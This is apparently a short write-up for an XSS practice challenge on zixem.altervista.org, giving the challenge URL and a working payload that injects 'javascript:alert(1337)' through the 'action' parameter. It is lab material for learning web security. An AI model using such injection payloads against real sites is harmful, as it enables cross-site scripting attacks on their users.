 Chall Url: http://www.zixem.altervista.org/XSS/5.php?name=%26%2339&action=5.php
Payload: http://www.zixem.altervista.org/XSS/5.php?name=%26%2339&action=javascript:alert(1337)

![](https://user-images.githubusercontent.com/25671488/61376878-b4f9cb00-a8bf-11e9-8648-591e8857a74f.png)
